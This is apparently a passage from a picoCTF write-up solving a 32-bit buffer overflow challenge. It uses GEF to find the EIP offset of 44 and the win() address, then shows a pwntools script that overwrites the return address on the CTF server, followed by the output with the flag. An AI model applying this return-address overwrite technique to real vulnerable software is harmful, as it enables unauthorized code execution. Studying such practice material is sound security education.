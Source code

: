 ```text
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
```

We can see that `$eip` is currently overflowed with the pattern `0x6161616c` (`laaa`). let's search for this pattern using `pattern search`:

```text
gef➤  pattern search 0x6161616c
[+] Searching for '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search)
```

To figure out which offset we need to use, we can use `readelf` to analyze header of the `vuln` executable:

```text
kali@kali:~/pico22/buffer-overflow-1$ readelf -h vuln | grep endian
  Data:                              2's complement, little endian
```

Our binary is in little endian, we know that 44 `A`s are needed in order to reach the `$eip`. The only thing we need now before we create our exploit is the address of the `win()` function, which will be appended to the end of our buffer to overwrite the `$eip` on the stack:

```text
gef➤  x win
0x80491f6 <win>: 0xfb1e0ff3
```

Win is at `0x80491f6`, but we need to convert it to the little endian format. You can do this with the pwntools `p32()` command, which results in `\xf6\x91\x04\x08`.
Let's make a final visual of our payload:

![Payload Visual](/asset/pico/buffer-overflow-0-1/payload-visual.png)

Let's write our payload and send it to the remote server with Python3/pwntools:

```py
from pwn import *
payload = b"A"*44 + p32(0x80491f6)        # Prints the address as little endian (b'\xf6\x91\x04\x08').
host, port = "saturn.picoctf.net", [PORT]

p = remote(host, port)                    # Opens the connection
log.info(p.recvS())                       # Decodes/prints "Please enter your string:"
p.sendline(payload)                       # Sends the payload
log.success(p.recvallS())                 # Decodes/prints all program outputs
p.close()                                 # Closes the connection
```

Let's try running the script on the server:

```text
kali@kali:~/pico22/buffer-overflow-1$ python3 exp.py
[+] Opening connection to saturn.picoctf.net on port [PORT]: Done
[*] Please enter your string: 
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port [PORT]
[+] Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
    picoCTF{addr3ss3s_ar3_3asy_********}
```
